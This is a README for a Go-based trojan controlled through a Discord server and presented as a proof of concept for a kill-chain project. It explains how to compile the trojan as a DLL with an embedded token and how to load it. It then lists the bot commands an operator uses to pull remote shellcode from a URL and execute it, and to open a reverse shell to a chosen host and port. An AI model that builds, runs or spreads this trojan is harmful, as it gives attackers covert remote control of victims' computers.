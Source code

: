 ```
 /$$$$$$ /$$   /$$               /$$$$$$                        /$$                                   /$$
|_  $$_/| $$  | $/              /$$__  $$                      | $$                                  | $$
  | $$ /$$$$$$|_//$$$$$$$      | $$  \__/  /$$$$$$  /$$$$$$$  /$$$$$$    /$$$$$$  /$$$$$$$   /$$$$$$ | $$
  | $$|_  $$_/  /$$_____/      |  $$$$$$  |____  $$| $$__  $$|_  $$_/   |____  $$| $$__  $$ |____  $$| $$
  | $$  | $$   |  $$$$$$        \____  $$  /$$$$$$$| $$  \ $$  | $$      /$$$$$$$| $$  \ $$  /$$$$$$$|__/
  | $$  | $$ /$$\____  $$       /$$  \ $$ /$$__  $$| $$  | $$  | $$ /$$ /$$__  $$| $$  | $$ /$$__  $$    
 /$$$$$$|  $$$$//$$$$$$$/      |  $$$$$$/|  $$$$$$$| $$  | $$  |  $$$$/|  $$$$$$$| $$  | $$|  $$$$$$$ /$$
|______/ \___/ |_______/        \______/  \_______/|__/  |__/   \___/   \_______/|__/  |__/ \_______/|__/


"These blocks belong to us homie remember I told you that!"

                                                            ~ Santana
```

Discord based trojan serving as a proof of concept for [TheKillchain](https://github.com/bakarilevy/TheKillchain)

## Compiling

This trojan is intended to be compiled with your discord token in the source code prior to deployment.
```go
var DISCORD_TOKEN string = "YOUR_DISCORD_TOKEN_HERE"
```
For this reason you will need to compile this on a device with the Go compiler installed.
The preferred method of using this tool is as a native dynamic link library.
In order to compile Go source code as a dynamic link library you will need to run the following command:

```
go build -o <dll-name>.dll -buildmode=c-shared
```

You will substitute the dll-name variable with the name of the dll you would like to output.

## Code Execution

How do we manage to achieve code execution from the dll?
There are several ways to achieve this, in TheKillchain I discuss using the living off the land technique to execute the DLL main function of the dll.

## Usage

Once the trojan has been loaded it will check in to your Discord server however it will not take any actions.
You can interact with the trojan by running the !salute command.
This will generate a unique id for the trojan after which you can run the !set-active command with the generated id to allow the trojan to execute commands on the target.

```
!set-active <UUID>
```

UUID will be the string you get from running the !salute command.

Currently I have implemented shellcode execution using this tool as well as a reverse shell.
Due to how noisy using the GetAsyncKeyState Win32api function is I have decided not to include the keylogger as functionality for the tool.
I may consider adding this functionality later.

To execute shellcode simply provide a url to the location of your shellcode as a base64 encoded string in a json format:

JSON Shellcode:
```json
{
    "Shellcode": "BASE64ENCODEDSHELLCODE"
}
```

Using Discord command:
```
!exec-shellcode https://<my-domain>.com/my/shellcode/shellcode.json
```

To get the reverse shell use the commands to set the host and port in discord:
```
!set-rshell-host <ip-addr/domain>
!set-rshell-post <port-number>
!reverse-shell
```

You can of course check those settings running the get commands:
```
get-rshell-host
get-rshell-port
```